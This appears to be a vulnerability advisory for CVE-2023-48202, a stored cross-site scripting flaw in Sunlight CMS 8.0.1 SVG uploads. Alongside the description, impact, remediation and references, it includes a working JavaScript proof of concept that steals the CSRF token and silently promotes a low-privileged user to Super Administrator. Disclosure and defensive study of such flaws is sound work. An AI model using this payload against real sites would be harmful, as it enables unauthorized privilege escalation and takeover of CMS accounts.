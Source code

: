 # Stored Cross-Site Scripting (XSS) in SVG image file uploaded in File Manager in Sunlight CMS 8.0.1

> https://github.com/sunlight-cms/sunlight-cms

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 8.0 HIGH
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H

# Description
A user that is in the 'Editors' group or any group that can upload files in the File Manager, is able to upload an SVG file with malicious Javascript code. After an Administrator or Super Administrator clicks and opens the image, the malicious code is executed.

# Execution steps
1. Create the new user 'editor1' and adde it to the group 'Editors'.
2. The user 'editor1' uploads a malicious SVG file.
3. Access the image using the File Manager as a Super Administrator to execute the malicious code in the SVG image.
4. User 'editor1' is added to the 'Super Administrators' group.

# Impact
Stored Cross-Site Scripting vulnerability in Sunlight CMS 8.0.1 allows an authenticated low-privileged user to escalate his privileges. A malicious user that is in the 'Moderators' group or any group that can upload files in the File Manager, can escalate his privileges to any higher level group, including Administrators and Super Administrators without being authorized. The malicious user can then create, edit and delete any content in the CMS, create/edit/delete users with any privilege and read the database using the backup functionality.

# Remediation
Sanitize SVG image files by removing scripts before rendering or convert SVG image files to safer formats like PNG and JPG.

# Proof of Concept code
Create a valid SVG image file and then add the following code:

```js
<script type="text/javascript">
	var csrf_token;
	var xhrGET_users_edit = new XMLHttpRequest(); 
	xhrGET_users_edit.responseType = "document"; 
	xhrGET_users_edit.onreadystatechange = function() {	
		if (this.readyState == 4 &amp;&amp; this.status == 200) {
			var doc = this.responseXML ;
			csrf_token = doc.getElementsByName("_security_token")[0].value;		
			var xhr = new XMLHttpRequest();
			xhr.open("POST", "http:\/\/sunlight\/admin\/index.php?p=users-edit&amp;id=editor1", true);
			xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
			xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/avif,image\/webp,image\/apng,*\/*;q=0.8,application\/signed-exchange;v=b3;q=0.7");
			xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.9");
			xhr.withCredentials = true;
			var body = "username=editor1&amp;publicname=editor1&amp;email=editor1%40test.tk&amp;password=&amp;group_id=1&amp;wysiwyg=1&amp;public=1&amp;note=&amp;_security_token="+csrf_token;
			var aBody = new Uint8Array(body.length);
			for (var i = 0; i &lt; aBody.length ; i++)
				aBody[i] = body.charCodeAt(i); 
			xhr.send(new Blob([aBody]));
		}
	};
	xhrGET_users_edit.open("GET", "/admin/index.php?p=users-edit&amp;id=editor1", true);
	xhrGET_users_edit.send();
</script>
```

# References
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-48202
- https://github.com/sunlight-cms/sunlight-cms/commit/21c2bb50fbf99921a1deaf89ebe965b34ff03f51
- https://nvd.nist.gov/vuln/detail/CVE-2023-48202
